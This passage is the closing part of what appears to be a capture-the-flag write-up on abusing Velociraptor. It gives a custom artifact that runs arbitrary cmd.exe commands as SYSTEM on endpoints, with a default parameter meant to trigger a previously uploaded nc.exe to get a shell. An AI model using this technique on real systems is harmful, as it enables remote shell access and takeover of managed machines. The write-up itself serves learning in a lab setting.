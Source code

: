 The output gonna be in the notebook of the hunter

But if we want shell just do this :

```console
name: Windows.System.CmdShell222
description: |
  This artifact allows running arbitrary commands through the system
  shell cmd.exe.

  Since Velociraptor typically runs as system, the commands will also
  run as System.

  This is a very powerful artifact since it allows for arbitrary
  command execution on the endpoints. Therefore this artifact requires
  elevated permissions (specifically the `EXECVE`
  permission). Typically it is only available with the `administrator`
  role.

  Note there are some limitations with passing commands to the cmd.exe
  shell, such as when specifying quoted paths or command-line
  arguments with special characters. Using Windows.System.PowerShell
  artifact is likely a better option in these cases.


precondition:
  SELECT OS From info() where OS = 'windows'

parameters:
  - name: Command
    default: "trigger your nc.exe uploaded before"

sources:
  - query: |
      SELECT * FROM execve(argv=["cmd.exe", "/c", Command])
```
Nice ! sorry if my english was bad and if you have any questions or comments on this write up you can dm me on [instagram](https://instagram.com/eliott.la) or on discord : 'ethicxz.'

